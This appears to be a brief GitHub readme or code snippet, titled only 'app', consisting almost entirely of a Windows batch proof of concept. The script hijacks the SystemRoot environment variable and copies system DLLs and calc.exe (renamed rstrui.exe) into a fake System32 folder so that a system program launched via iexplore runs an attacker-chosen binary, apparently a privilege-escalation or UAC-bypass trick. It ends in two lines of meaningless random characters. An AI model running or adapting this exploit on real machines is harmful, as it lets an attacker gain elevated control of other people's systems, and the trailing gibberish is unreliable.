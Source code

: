 # app
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

mkdir %temp%\System32

FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL

set a=C:\Windows\System32\calc.exe

copy %a% %temp%\System32\rstrui.exe /Y > NUL

set SystemRoot=%temp%

start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}


leugai8eephei0ot1quaMai4Yea"C^ee

iet4yi3Einae|x3L
